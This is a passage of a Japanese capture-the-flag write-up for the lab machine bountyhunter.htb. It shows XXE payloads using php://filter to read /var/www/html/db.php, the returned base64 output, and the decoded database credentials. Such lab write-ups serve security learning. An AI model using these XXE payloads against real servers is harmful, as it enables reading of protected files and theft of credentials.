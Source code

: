 ```
```

存在するアカウントの情報は得られたが、対応するパスワードの情報が何も得られていない。若干行き詰まったが、脆弱性を悪用してdb.phpを閲覧できないかと考えて、下記のアクセス制御バイパスを試してみた。

```
XXE: Access Control Bypass (Loading Restricted Resources - PHP example)

<?xml version="1.0"?>
<!DOCTYPE foo [
<!ENTITY ac SYSTEM "php://filter/read=convert.base64-encode/resource=http://example.com/viewlog.php">]>
<foo><result>&ac;</result></foo>
```

URLを指定して試してみたが失敗した。

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ENTITY ac SYSTEM "php://filter/read=convert.base64-encode/resource=http://bountyhunter.htb/db.php">]>
<bugreport>
<title>foo</title>
<cwe>bar</cwe>
<cvss>10</cvss>
<reward>&ac;</reward>
</bugreport>
```

Apacheを使用しているようだったので、ファイルが配置されているパスは`/var/www/html`の下だと推測する。

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ENTITY ac SYSTEM "php://filter/read=convert.base64-encode/resource=/var/www/html/db.php">]>
<bugreport>
<title>foo</title>
<cwe>bar</cwe>
<cvss>10</cvss>
<reward>&ac;</reward>
</bugreport>
```

上記のPayloadを投げ込むとBase64エンコードされたデータが返ってきた。PHPファイルのアクセス制御をバイパスできている模様。

```
PD9waHAKLy8gVE9ETyAtPiBJbXBsZW1lbnQgbG9naW4gc3lzdGVtIHdpdGggdGhlIGRhdGFiYXNlLgokZGJzZXJ2ZXIgPSAibG9jYWxob3N0IjsKJGRibmFtZSA9ICJib3VudHkiOwokZGJ1c2VybmFtZSA9ICJhZG1pbiI7CiRkYnBhc3N3b3JkID0gIm0xOVJvQVUwaFA0MUExc1RzcTZLIjsKJHRlc3R1c2VyID0gInRlc3QiOwo/Pgo=
```

Base64デコードすると、下記の認証情報が得られた。

```
<?php
// TODO -> Implement login system with the database.
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "m19RoAU0hP41A1sTsq6K";
$testuser = "test";
?>
```
